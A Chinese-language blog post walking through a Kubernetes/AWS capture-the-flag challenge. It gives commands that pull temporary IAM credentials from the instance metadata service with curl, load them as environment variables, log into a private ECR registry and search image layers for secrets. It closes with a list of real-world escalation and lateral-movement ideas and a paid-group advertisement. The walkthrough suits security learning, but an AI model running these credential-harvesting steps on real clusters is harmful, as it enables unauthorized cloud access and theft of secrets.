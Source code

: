 #  从零开始：K8s安全测试与漏洞挖掘-8   
原创 枇杷哥  黑伞安全   2024-12-18 10:56  
  
在这一挑战中，参与者需要深入到一个Pod的容器镜像中，检查其Elastic Container Registry (ECR)存储库中的图层，并从中找出隐藏的秘密。这个任务与之前的Registry Hunt类似，但这次重点放在了AWS ECR上。  
#### 技术点：  
- Kubernetes Pods 和 Secrets：理解如何列出和获取Pods及其关联的秘密。  
  
- Docker镜像元数据：熟悉Docker镜像的历史记录，包括构建命令。  
  
- AWS IAM角色和权限：了解如何通过实例元数据服务(IMDS)获取IAM凭证，并使用这些凭证与AWS资源交互。  
  
- ECR操作：掌握如何登录到ECR、拉取镜像以及查看镜像的详细信息。  
  
- Crane工具：用于处理容器镜像的CLI工具。  
  
#### 步骤与命令：  
1. 列出并检查Pod详情：  
  
1. 使用kubectl get pods命令来列出所有Pod。  
  
1. 选择目标Pod后，利用kubectl get pod <pod-name> -o json获得更详细的规格说明。  
  
1. 提取ECR镜像URL：  
  
1. 在Pod详情中找到使用的ECR镜像URL，例如688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:...  
  
1. 从IMDS获取临时IAM凭证：  
  
1. 请求节点实例的角色名称:curl http://169.254.169.254/latest/meta-data/iam/security-credentials  
  
1. 获取具体凭证信息:curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>  
  
1. 设置环境变量以便后续使用:  
```
export AWS_ACCESS_KEY_ID=$(echo $TOKEN | jq -r '.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $TOKEN | jq -r '.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $TOKEN | jq -r '.SessionToken')
```  
  
1. 生成ECR密码并登录：  
  
1. PASSWORD=$(aws ecr get-login-password)  
  
1. crane auth login <ecr-url> -u AWS -p $PASSWORD  
  
1. 检查镜像元数据和层：  
  
1. 使用crane config <image>查看镜像配置。  
  
1. 注意镜像历史部分可能包含敏感信息或构建时的秘密。  
  
1. 发现并读取flag文件：  
  
1. 如果镜像中有任何文本文件如flag.txt，可以直接用cat命令读取。  
  
**实战挖掘点：**  
  
未授权访问EKS集群中的私有Docker镜像仓库  
### 从Kubernetes Pod内部提升权限至EKS节点级别  
### 利用错误配置的服务账号权限读取敏感S3桶数据  
  
利用Kubernetes API Server暴露的端点进行信息泄露  
  
通过Kubernetes RBAC漏洞实现跨命名空间横向移动  
  
****  
****  
**欢迎关注**  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpP42WfBo5hTxoaTEtBuXQeLUWtmGfA1ic3HbXgu686nVcRvSeiaVWmboVVkiaM9MrVY19LZ9x3e6low/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
